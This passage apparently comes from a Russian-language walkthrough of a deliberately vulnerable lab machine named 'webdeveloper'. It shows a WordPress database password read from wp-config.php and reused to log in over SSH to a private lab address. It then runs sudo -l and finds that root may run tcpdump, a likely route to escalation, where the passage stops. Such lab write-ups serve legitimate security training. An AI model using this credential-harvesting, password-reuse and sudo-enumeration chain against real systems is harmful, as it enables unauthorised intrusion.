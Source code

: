 ```html 
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfT**********');
```

>С помощью полученного пароля, заходим как webdeveloper:

```html
root@kali:~# ssh webdeveloper@192.168.56.116
The authenticity of host '192.168.56.116 (192.168.56.116)' can't be established.
ECDSA key fingerprint is SHA256:qgNlWWIX9wv+iLg9Bqpq+ENCHqG3lhlsM1bMQJygYDM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.116' (ECDSA) to the list of known hosts.
webdeveloper@192.168.56.116's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-38-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 29 13:23:39 UTC 2020

  System load:  0.0                Processes:           101
  Usage of /:   23.3% of 19.56GB   Users logged in:     0
  Memory usage: 38%                IP address for eth0: 192.168.56.116
  Swap usage:   0%


275 packages can be updated.
175 updates are security updates.


Last login: Tue Oct 30 09:25:27 2018 from 192.168.1.114
webdeveloper@webdeveloper:~$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

>Теперь мы имеем права юзера webdeveloper. Посмотрим, что мы можем запускать от root:

```html
webdeveloper@webdeveloper://$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```
